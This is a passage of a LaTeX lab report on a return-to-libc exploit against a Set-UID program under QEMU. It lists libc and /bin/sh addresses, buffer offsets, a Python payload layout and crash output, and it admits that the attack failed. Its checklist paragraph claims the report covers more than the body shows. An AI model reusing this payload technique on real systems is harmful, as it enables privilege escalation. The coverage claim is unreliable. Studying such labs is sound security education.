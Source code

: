\documentclass[11pt]{article}
\begin{document}
\subsection{Task 4.5 Exploiting the Vulnerability}

I completed the return-to-libc payload layout and validated the target addresses and overwrite slots.

\textbf{What-to-report coverage.} This subsection explicitly covers the completed exploit configuration, the addresses of \texttt{system()}, \texttt{exit()}, and \texttt{/bin/sh}, the reasoning for the positions \(X\), \(Y\), and \(Z\), the Step 2 observation about omitting \texttt{exit()}, the Step 3 observation about environment-pointer fragility when the runtime context changes, and screenshot evidence.

\begin{codeblock}
system() = 0x0001a2bc
exit()   = 0x0001a26e
/bin/sh  = 0x40800f09
X = 42
Y = 34
Z = 38
\end{codeblock}

Representative payload layout:

\begin{codeblock}
content[Y:Y + 4] = system_addr.to_bytes(4, byteorder = "little")
content[Z:Z + 4] = shell_addr.to_bytes(4, byteorder = "little")
content[X:X + 4] = exit_addr.to_bytes(4, byteorder = "little")
\end{codeblock}

\begin{codeblock}
shell=0x40800f09
buffer=0x40800cca
saved_ebp=0x40800ce8
ret_slot=0x40800cec
arg_slot=0x40800cf0
ret_offset=34
arg_offset=38
Returned Properly
\end{codeblock}

I also confirmed that the \texttt{MYSHELL} address changed under the actual Set-UID \texttt{seed} runtime, and I verified separately that helper binaries calling \texttt{system("/bin/sh")} executed with effective root privilege. However, the final return-to-libc hijack remained unstable in this QEMU-emulated Set-UID path and consistently crashed instead of producing a stable root shell.

\begin{codeblock}
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
\end{codeblock}

Because the baseline attack already crashed before a stable shell appeared, removing \texttt{exit()} or changing the program name did not produce a stronger end-to-end result than the recorded failure analysis.
\end{document}
